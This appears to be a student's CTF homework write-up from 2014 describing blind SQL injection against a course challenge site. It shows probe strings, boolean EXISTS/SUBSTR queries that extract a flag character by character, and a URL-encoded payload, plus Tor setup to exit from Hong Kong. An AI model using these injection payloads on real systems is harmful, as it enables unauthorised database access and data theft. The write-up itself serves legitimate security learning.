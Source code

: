 =================
 Tormity Writeup
=================

:date: 2014-10-06 10:43
:modified: 2014-10-14 20:44
:tags: secprog, ctf, writeup
:category: memo
:slug: tormity-writeup
:about_author: Bug generator
:email: starbops@gmail.com
:authors: Zespre Schmidt
:summary: Security Programming Homework 1-1

Get Flags
=========

According to the first hint: "Try to capture as more flags as you can.", I
think we should use to Tor to visit the website. But for tests and simlicity,
I decided to use Chrome extension which called "Hola". It is a cute tool that
help you surfing the Internet through VPNs.

Although "Hola" is convenient, we should use Tor for better anonimity, like
atdog said.

SQL injection Tests
===================

According to the second hint, I believe there are vulnerabilities about SQL
injection in the website. So I tried to append following query strings, assume
the base url is ``http://tor.atdog.tw/news/1``

.. code-block:: mysql

    '
    `
    UNION SELECT 1
    UNION SELECT 1,2
    UNION SELECT 1,2,3
    ...

Failed. We only got "500 Internal Server Error" page all the time. Try another
method

.. code-block:: mysql

    AND 1=1
    AND 1=2

Something happened! The first url returned the article but the second did not.
So I guess I can use this feature to identify something, e.g. flag.

The second hint told me that there is a flag in the "flags" table and its
column name is called "flag". Chances are there could be multiple rows in that
table. I want to know how many rows are there in the "flags" table

.. code-block:: mysql

    AND EXISTS(SELECT 1 FROM flags LIMIT 0, 1)
    AND EXISTS(SELECT 1 FROM flags LIMIT 1, 1)
    AND EXISTS(SELECT 1 FROM flags LIMIT 2, 1)

Using the "limit" SQL command to limit the lines of returned row(s). We knew
there are two rows in the "flags" table from the above tests. But which one is
the real flag? According to my tests, the actual flag is the second one.

The meaning of "blind SQL injection" is that we can only get true or false as
a result at one time. But how can we capture the flag? One of the approaches is
to narrow down the number of candidates of a single character by asking the
webpage "larger or smaller" question. After located the exact character, move
on to the next character. Repeat this action, the flag will show up

.. code-block:: mysql

    AND EXISTS(SELECT 1 FROM flags WHERE ORD(SUBSTR((SELECT flag FROM flags LIMIT 1,1), 1)) <= 79)

Finally, our sophisticated query string which will be appended to the base url is

.. code-block:: mysql

    %20and%20exists(select%201%20from%20flags%20where%20ord(substr((select%20flag%20from%20flags%20limit%201,1),%201))%20%3C=%2079)

Using Tor
=========

The hint told me that I should connect to the webpage with Hong Kong IP. To
satisfy this restriction and to use python script doing this boring job for me,
Tor must be setup.

First we need to install Tor via Homebrew ``$ brew install tor``. After the
installation was done, you will see the caveats shown on the terminal

.. code-block:: sh

    To have launchd start tor at login:
        ln -sfv /usr/local/opt/tor/\*.plist ~/Library/LaunchAgents
    Then to load tor now:
        launchctl load ~/Library/LaunchAgents/homebrew.mxcl.tor.plist

The default Tor configuration file is at ``/usr/local/etc/tor/torrc.sample``.
We just need to add two lines of configuration in ``${HOME}/.torrc``

.. code-block:: text

    StrictNodes 1
    ExitNodes {hk}

Then all of our connections will exit from Hong Kong.

Writing Python Script
=====================

Environment
-----------

I use Python 2.7.8 to write the script, and import some modules for automatic
login and using SOCKS proxy

.. code-block:: sh

    $ pyenv virtualenv 2.7.8 secprog-2.7.8
    $ pyenv local secprog-2.7.8
    $ pip install mechanize PySocks

Key Points
----------

- Using python mechanize library to implement login action
- Using python PySocks library to make all connections go through Tor network
  (SOCKS proxy)

Flag
====

The flag is ``SECPROC{Hey,D0n't_f0rg3t_g0_thr0ugh_an0nymity_n3tw0rk.}``

References
==========

- `Tor Country Codes - B3RN3D`__
- `tutorial SQL injection - LampSecurity CTF 6`__
- `MySQL - String Functions`__
- `Python's mechanize to login like a user`__
- `stack overflow - using tor as a SOCKS5 proxy with python urllib2 or mechanize`__
- `stack overflow - python re.sub group: number after \number`__

.. __: https://b3rn3d.herokuapp.com/blog/2014/03/05/tor-country-codes
.. __: http://www.infond.fr/2010/06/tutorial-sql-injection-lampsecurity-ctf.html
.. __: http://dev.mysql.com/doc/refman/5.0/en/string-functions.html#function_substr
.. __: http://simplapi.wordpress.com/2012/04/20/pythons-mechanize-login-like-a-user/
.. __: http://stackoverflow.com/questions/14449974/using-tor-as-a-socks5-proxy-with-python-urllib2-or-mechanize
.. __: http://stackoverflow.com/questions/5984633/python-re-sub-group-number-after-number

